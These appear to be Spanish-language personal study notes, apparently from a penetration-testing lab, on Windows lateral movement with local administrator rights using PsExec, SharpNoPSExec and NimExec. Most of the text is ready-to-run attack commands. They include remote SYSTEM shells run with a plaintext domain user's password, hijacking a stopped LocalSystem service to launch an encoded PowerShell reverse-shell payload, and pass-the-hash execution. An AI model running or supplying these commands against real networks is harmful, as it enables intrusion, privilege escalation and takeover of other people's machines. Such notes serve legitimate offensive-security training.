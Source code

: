 # Necesidades

- Privilegios de administrador local


# Desde windows

### PsExec

Es una herramienta parte del Sysinternals suite. 

1. Establece un link en la carpeta ADMIN$ (c:\windows) mediante SMB
2. Usa el service control manager(SCM) para iniciar el servicio PsExecsvc y setea un pipe.
3. Redirige los ingresos en la consola mediante el pipe.

##### Uso

    .\PsExec.exe \\SRV02 -i -u INLANEFREIGHT\helen -p RedRiot88 cmd

Si queremos ejecutarlo como NT AUTHORITY\SYSTEM

    .\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd

### SharpNoPSExec

**Mejora el anonimato** aprovechando servicios que ya están corriendo en el host. 

No genera una shell de por sí, con lo que tendremos que generarla nosotros agregando un payload de revshell.

1. Busca todos los servicios en el host.
2. Identifica todos los que tienen el start como "disable" o "manual", que su estado es stopped y sean corridos con privilegios de LocalSystem.
3. Selecciona uno, modifica el path al binario del mismo para apuntar a un payload dado por el atacante.
4. Luego de la ejecución, espera 5 segundos para volver el servicio a su path original.

Por defecto usa las creds del user que está corriéndolo. Si quisieramos hacerlo con otro user podemos agregar las flag "--username", --"password" y "--domain"

    .\SharpNoPSExec.exe --target=172.20.0.52 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ...SNIP...AbwBzAGUAKAApAA=="

### NimExec

Funciona igual que SharpNoPSExec pero permite hacer un **pass the hash**

    .\NimExec -u <user> -d <domain> -h <hash> -t <ip> -c "cmd.exe /c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -v

### reg.exe
# Continuará despues de comer un alto asado
